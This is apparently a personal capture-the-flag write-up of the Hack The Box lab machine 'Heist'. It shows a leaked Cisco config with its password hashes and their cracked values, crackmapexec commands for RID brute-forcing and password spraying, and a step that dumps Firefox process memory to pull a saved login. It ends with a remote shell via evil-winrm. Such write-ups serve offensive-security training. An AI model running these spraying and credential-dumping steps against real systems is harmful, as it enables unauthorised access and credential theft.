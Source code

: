# Heist
10.10.10.149

there is a webserver on port 80. We are able to login as guest. We see an issue by an enduser who has attached their Cisco iOS config.

```
version 12.2
no service pad
service password-encryption
!
isdn switch-type basic-5ess
!
hostname ios-1
!
security passwords min-length 12
enable secret 5 $1$pdQG$o8nrSzsGXeaduXrjlvKc91
!
username rout3r password 7 0242114B0E143F015F5D1E161713
username admin privilege 15 password 7 02375012182C1A1D751618034F36415408
!
!
ip ssh authentication-retries 5
ip ssh version 2
!
!
router bgp 100
 synchronization
 bgp log-neighbor-changes
 bgp dampening
 network 192.168.0.0Â mask 300.255.255.0
 timers bgp 3 9
 redistribute connected
!
ip classless
ip route 0.0.0.0 0.0.0.0 192.168.0.1
!
!
access-list 101 permit ip any any
dialer-list 1 protocol ip list 101
!
no ip http server
no ip http secure-server
!
line vty 0 4
 session-timeout 600
 authorization exec SSH
 transport input ssh

```

There are a few passwords in this file:

secret
```
$1$pdQG$o8nrSzsGXeaduXrjlvKc91
```
rout3r password
```
0242114B0E143F015F5D1E161713
```
admin password
```
02375012182C1A1D751618034F36415408
```

We found an online crack tool: https://www.firewall.cx/cisco-technical-knowledgebase/cisco-routers/358-cisco-type7-password-crack.html

and are able to crack the second two passwords

secret
```
stealth1agent
```

rout3r
```
$uperP@ssword
```

admin
```
Q4)sJu\Y8qz*A3?d
```

We used `crackmapexec` to find a valid set of credentials:

```
crackmapexec smb 10.10.10.149 -u hazard -p stealth1agent
```

hazard has the same password as the secret from the config.

we used crackmapexec to RID Bruteforce a few other users.

Then added the users to users.txt and password spray again.

We found another set of credentials `Chase:Q4)sJu\Y8qz*A3?d`

This is where we turned to a writeup for some pointers:
1. Use procdump to dump firefox.
2. Copy the file down
3. Strings dump-file | grep login_password
4. Now we have the admin password.

![[Pasted image 20220718090540.png]]

```
admin@support.htb
```

```
4dD!5}x/re8]FBuZ
```

Then we use crackmapexec to password spray the newly found password against our list of users obtained from the RID bruteforce. 

```
crackmapexec smb 10.10.10.149 -u users -p '4dD!5}x/re8]FBuZ'
```

This is the admin password! And we can execute commands

![[Pasted image 20220718091940.png]]

then we spawn a shell using evil-winrm

![[Pasted image 20220718092124.png]]